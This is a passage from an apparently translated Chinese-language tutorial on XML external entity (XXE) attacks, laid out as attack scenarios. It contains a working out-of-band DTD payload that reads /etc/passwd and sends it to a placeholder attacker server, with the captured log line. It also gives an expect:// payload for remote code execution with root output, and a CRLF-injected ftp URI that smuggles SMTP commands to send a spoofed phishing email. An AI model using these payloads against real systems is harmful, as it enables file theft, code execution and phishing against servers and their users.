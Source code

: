 上述代码一旦由被攻击的服务器所执行，该服务器就会向我们的远程服务器发送请求，查找包含我们的载荷的DTD文件：

```
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % all "&lt;!ENTITY xxe SYSTEM 'http://ATTACKESERVER.com/?%file;'&gt;"&gt;
%all;
```

花点时间了解一下上述请求的执行流程。 结果是两个请求发送到我们的服务器，其中第二个请求是`/etc/passwd`文件的内容。

在我们的VPS日志中可以看到带有文件内容的第二个请求，它证实了OOB XXE：<br>`http://ATTACKERSERVER.com/?daemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fbin%2Fsh%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fbin%2Fsh`

### <a class="reference-link" name="%E5%9C%BA%E6%99%AF3-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>场景3 – 远程代码执行

这种情况很少发生，但还是会在一些情况下黑客能够通过XXE执行代码，这主要是由于内部应用程序配置/开发不当。 如果我们很幸运遇到PHP `expect`模块被加载到易受攻击的系统或正在执行XML的内部应用程序上，我们可以执行如下命令：

```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE GVI [ &lt;!ELEMENT foo ANY &gt;
&lt;!ENTITY xxe SYSTEM "expect://id" &gt;]&gt;
&lt;catalog&gt;
   &lt;core id="test101"&gt;
      &lt;author&gt;John, Doe&lt;/author&gt;
      &lt;title&gt;I love XML&lt;/title&gt;
      &lt;category&gt;Computers&lt;/category&gt;
      &lt;price&gt;9.99&lt;/price&gt;
      &lt;date&gt;2018-10-01&lt;/date&gt;
      &lt;description&gt;&amp;xxe;&lt;/description&gt;
   &lt;/core&gt;
&lt;/catalog&gt;
```

响应包：<br>``{`"error": "no results for description uid=0(root) gid=0(root) groups=0(root)...`

### <a class="reference-link" name="%E5%9C%BA%E6%99%AF4%20-%20%E7%BD%91%E7%BB%9C%E9%92%93%E9%B1%BC"></a>场景4 – 网络钓鱼

我们使用Java的XML解析器找到了一个易受攻击的端点。 扫描内部端口后，我们发现侦听端口25的SMTP服务，Java支持在sun.net.ftp.impl.FtpClient中实现的ftp URI方案。 因此，我们可以指定用户名和密码，例如`ftp:// user:password[@hostport](https://github.com/hostport)/test.txt`，FTP客户端将在连接中发送相应的USER命令。

但这与SMTP和网络钓鱼有什么关系呢？ 接下来就是有趣的部分。如果将`％0D％0A`（CRLF）放在URL的user部分的任何位置，我们就可以终止USER命令并向FTP会话中注入一个新命令，允许我们向端口25发送任意SMTP命令：

```
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```
